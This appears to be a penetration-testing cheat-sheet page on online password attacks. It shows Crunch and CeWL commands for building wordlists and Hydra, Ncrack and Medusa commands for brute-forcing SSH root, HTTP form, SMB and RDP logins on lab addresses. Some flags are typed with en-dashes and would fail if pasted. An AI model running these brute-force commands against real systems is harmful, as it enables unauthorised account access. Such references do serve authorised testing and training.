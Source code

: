 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```text
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```text
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```text
./crunch 1 1 -p pen test lab
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```text
./crunch 6 6 0123456789 -b 1mb -o START
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```text
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

```text
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```text
cewl -d 2 -m 5 -w docswords.txt https://example.com
```

Options

```text
-m, --min_word_length: Minimum word length, default 3.
-w, --write: Write the output to the file.
-d <x>,--depth <x>: Depth to spider to, default 2.
```

## Bruteforce

### Hydra

```text
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```text
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```text
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```text
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%281%29.png)

{% embed url="http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/" caption="" %}

### Ncrack

#### RDP bruteforce

```text
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
```

#### SMB Bruteforce

```text
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```text
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

